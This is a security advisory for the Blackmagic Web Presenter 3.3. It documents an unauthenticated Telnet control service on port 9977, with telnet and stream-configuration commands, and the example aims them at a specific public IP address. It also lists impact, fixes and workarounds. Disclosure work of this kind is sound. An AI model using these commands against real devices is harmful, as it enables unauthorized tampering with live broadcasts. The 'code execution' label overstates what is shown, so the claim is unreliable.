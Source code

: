 # Blackmagic Web Presenter – Code Execution (CE)

## Product
**Blackmagic Web Presenter**  
**Firmware/Software Version**: 3.3

## Vulnerability Type
- Code Execution (CE)

## Vulnerable Component(s)
- Embedded Telnet control interface

## Vulnerable Endpoint(s)
- `telnet://<target-ip>:9977`

## Attack Vector(s)
- Remote unauthenticated Telnet session over TCP port 9977

---

## Description

Blackmagic Web Presenter version 3.3 exposes a Telnet service on port `9977` that accepts unauthenticated commands. This service allows remote attackers to manipulate stream settings, including changing video modes and possibly altering device functionality. No credentials or authentication mechanisms are required to interact with the Telnet interface.

---

## Exploitation

### Steps to Reproduce:

1. Connect to the device using Telnet:

    ```bash
    telnet <target-ip> 9977
    ```

2. Send stream configuration commands:

    ```
    STREAM SETTINGS:
    Video Mode: 2160p60
    ```

3. Observe response:

    - If the command succeeds:
        ```
        ACK
        ```
    - If the command fails:
        ```
        NACK
        ```

---

## Example

```bash
telnet 221.149.191.210 9977
```
Send configuration commands, for example:

```bash
STREAM SETTINGS:
Video Mode: 2160p60

```
Expected response:

```bash
ACK
```

if unsuccessful:

```bash
NACK
```

## Proof of Concept (PoC) for(CE,Information Disclosure)
![Image](https://github.com/user-attachments/assets/a2c8f895-1296-4296-a4d5-2bd94988955f)

https://github.com/user-attachments/assets/5b02b52f-0c53-451a-80ef-4a03fa3a2027

## Impact

An attacker with network access can:

    Modify critical stream parameters

    Alter encoder behavior

    Disrupt live broadcasts

    Perform denial-of-service on the stream path

    Potentially escalate to other attack paths due to configuration changes

## Suggested Fixes

    Disable or restrict access to port 9977 via firewall or access control lists (ACLs)

    Authenticate all connections to Telnet services

    Update the device firmware if newer secure versions are released by Blackmagic

    Implement logging and alerting on unexpected Telnet access attempts

## Workarounds

    Place the device behind a VPN or internal network segmentation

    Use a hardware firewall to block access to port 9977

    Monitor all outbound stream changes for anomalies

## Affected Component(s)

    Embedded Telnet control interface on port 9977

## Attack Vector(s)

    Unauthenticated remote Telnet session over TCP (port 9977)
